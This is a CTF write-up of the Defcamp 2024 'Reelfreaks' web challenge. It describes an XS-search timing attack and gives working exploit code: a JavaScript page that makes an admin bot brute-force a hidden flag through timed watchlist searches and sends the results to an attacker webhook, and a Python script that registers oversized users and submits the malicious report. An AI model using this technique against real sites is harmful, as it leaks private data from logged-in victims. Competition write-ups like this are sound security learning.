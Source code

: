 ```yaml
---
title: "Reelfreaks D-CTF 2024"
date: 2024-09-30 14:09:30 +0300
categories: [ Web exploitation, CTF Writeup]
tags: [XS-Search,Web]
media_subpath: /assets/img/
---
```

# Reelfreaks

## Analysis 
Reelfreaks is a web challenge for Defcamp CTF 2024
The Challenge includes source for website that has different movie titles and rad dancing gifs, with a report functionality
![Pasted image 20240928111811](Pasted image 20240928111811.png)
Checking the database we can see that the movie with id 30 has the flag as it's name, but it's banned so most functionality is disabled for it and only the admin can see it in it's watchlist
![Pasted image 20240928111941](Pasted image 20240928111941.png)
![Pasted image 20240928113023](Pasted image 20240928113023.png)
This doesn't help us yet because we can't look at it in any way from users with a "regular_freak" role.

![Pasted image 20240928113344](Pasted image 20240928113344.png)

Because of the lack of any XSS we could find we had to find some other way to extract the flag which is the name of our banned movie.

Looking at the source for the /watchlist endpoint we can see that the search shows movies like what you send
![Pasted image 20240928114436](Pasted image 20240928114436.png)
this screams XS-search, but how? [Explanation]( https://xsleaks.dev/docs/attacks/xs-search/)

Looking at the database models we see that users can have really long usernames
![Pasted image 20240928114550](Pasted image 20240928114550.png)
So we can make usernames that are really long and add the banned movie to their watchlist and that should slow the search down when the admin searches for it in the watchlist area, when searching for a movie which doesn't exist there should be no slowdown, therefore our exploit would look like:

1. Register users with really long usernames log them in and add the flag movie to their watchlist 
2. Make a report to the admin that redirects it to your own domain
3. Make the admin do requests from your site to the watchlist and bruteforce the flag by measuring how long it takes the page to load depending what you search adding another character every time you get a hit (page that takes really long to load)
4. ???
5. profit

## Exploit
My teammate wrote the exploit and got it to work, I later made some changes to make it 100% reliable
first we make a webhook to host the XS-search script call it webhook 1
```html
<html>
<head>
  <title>Title of the document</title>
  <script>
    //var printable = "0123456789abcdefghijklmnopqrstuvwxyz!\"#$\'()*+,-./:;<=>?@[\\]^_`{|}~";
    var printable = "0123456789abcdefghijklmnopqrstuvwxyz-}_";
    var xmlHttp = new XMLHttpRequest();
    var progress = "DCTF{";
    while(true){
      for (let i = 0; i < printable.length; i++) {
        var startTime = performance.now();
        try{
          xmlHttp.open("GET", "https://127.0.0.1:5000/watchlist?q="+progress+printable[i], false ); // false for synchronous request
          xmlHttp.withCredentials = true;
          xmlHttp.send( null );
        }catch(error){
        }
        var endTime = performance.now();
        if ((endTime-startTime) > 200){
          progress += printable[i];
          try{
          xmlHttp.open("GET", "WEBHOOK2?t="+progress, false ); // false for synchronous request
          xmlHttp.send( null );
          }catch(error){
          }
          break;
        }
      };
    }
  </script>
</head>

<body>
</body>

</html>
```
Webhook2 is where we get sent the result

Then we run the python script to create the users and send the initial report which redirects to webhook 1
```python
import requests

url = "https://ChallengeUrl"

webhook = "Webhook1" # No http/s 

  

register_url = f"{url}/register"

login_url = f"{url}/login"

add_movie_url = f"{url}/add_movie"

report_url = f"{url}/report"

  
  
  

for i in ["a", "b", "c", "d", "e","f", "g", "h", "q","w"]:

    with requests.Session() as s:

        s.post(register_url, data= {'username': i*5000000, 'password': '1234'}, verify = False)

        s.post(login_url, data={'username': i*5000000, 'password': '1234'}, verify = False)

        s.post(add_movie_url, data={'movie_id':30}, verify=False)

  

s = requests.Session()

s.post(register_url, data= {'username': "1234", 'password': '1234'}, verify = False)

s.post(login_url, data={'username': '1234', 'password': '1234'}, verify = False)

x = s.post(report_url, data = {'movie': f"@{webhook}"}, verify = False)

print(x.text)
```

![Pasted image 20240929150126](Pasted image 20240929150126.png)
And we get the flag: `DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`
